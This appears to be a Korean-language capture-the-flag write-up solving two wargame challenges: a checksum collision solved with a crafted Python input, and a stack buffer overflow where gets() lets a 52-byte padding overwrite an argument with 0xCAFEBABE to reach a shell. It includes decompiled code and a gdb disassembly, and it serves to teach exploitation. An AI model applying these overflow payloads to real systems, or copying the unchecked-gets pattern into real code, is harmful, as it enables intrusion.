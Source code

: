 이 문제는 0x21DD09EC와 입력한 다섯 char 값의 합과 동일할 경우 flag를 얻을 수 있는 것을 확인했다. 그래서 처음에는 0x21DD09EC 즉 568134124를 5로
나눠서 113,626,824 4개와 113626828 1개를 집어넣었으나 계속 20개 에러에 걸렸다. ./col `python -c 'print "\x01\x01\x01\x01"*4+"\xE8\x05\xD9\x1D"'` 즉 
01010101값 4개와 그 값을 뺀 1dd905e8을 승질나서 집어넣었더니 flag를 주었다.
## bof
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  func(-559038737);
  return 0;
}
~~~
아이다를 통해 확인해보면 main은 이와 같은 구성을 가지고 있다. 
~~~c
unsigned int __cdecl func(int a1)
{
  char s; // [esp+1Ch] [ebp-2Ch]
  unsigned int v3; // [esp+3Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  puts("overflow me : ");
  gets(&s);
  if ( a1 == 0xCAFEBABE )
    system("/bin/sh");
  else
    puts("Nah..");
  return __readgsdword(0x14u) ^ v3;
}
~~~
func은 위와 같은 구성을 가지고 있다. 따라서 func을 리눅스를 disas 했더니
~~~
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
gdb-peda$ 
~~~
를 확인가능하다. func+29 에서 ebp-0x2c에 값이 들어가는 것을 확인가능하고 ebp 0x8에서 0xcafebabe와 값을 비교하는 것을 알게 되었다.따라서 44+8 즉 52의
dump값을 넣고 \xbe\xba\xfe\xca값을 전달하면 flag를 획득가능한 간단한 bof 문제이다.